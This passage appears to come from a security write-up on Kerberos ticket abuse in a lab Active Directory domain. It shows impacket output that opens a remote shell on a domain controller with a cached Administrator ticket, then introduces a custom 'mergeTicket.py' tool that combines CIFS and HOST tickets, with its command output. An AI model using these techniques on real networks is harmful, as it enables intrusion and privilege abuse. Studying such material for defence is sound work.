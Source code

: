 ```bash
[+] StringBinding chosen: ncacn_ip_tcp:DC01[50601]
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>exit
```

# mergeTicket.py

Time to write an impacket script to merge tickets for us! (I dont think this has already been done)


To start with I’m going to pass in 2 tickets and check if the spn is different, username is the same and if its for the same server.

```bash
$ ./mergeTicket.py CIFS.ccache HOST.ccache -o merged.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] User Name                     : administrator
[*] Hostname                      : WIN-O4PO3OJQGBU.runeterra.local
[*] Service Of Ticket 1           : CIFS
[*] Service Of Ticket 2           : HOST
```


Next is to just merge the tickets. I’m going to use the crude way of just reading in 60 bytes then writing it out to a file.

```bash
./mergeTicket.py CIFS.ccache HOST.ccache -o new.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] User Name                     : administrator
[*] Hostname                      : WIN-O4PO3OJQGBU.runeterra.local
[*] Service Of Ticket 1           : CIFS
[*] Service Of Ticket 2           : HOST
[*] Writing to output file: new.ccache
[*] Done!
```

```bash
klist -c new.ccache 
Ticket cache: FILE:new.ccache
Default principal: administrator@RUNETERRA.LOCAL

Valid starting     Expires            Service principal
09/12/23 06:58:18  09/12/23 16:58:18  CIFS/WIN-O4PO3OJQGBU.runeterra.local@RUNETERRA.LOCAL
	renew until 10/12/23 06:58:18
09/12/23 06:57:41  09/12/23 16:57:41  HOST/WIN-O4PO3OJQGBU.runeterra.local@RUNETERRA.LOCAL
	renew until 10/12/23 06:57:42
```
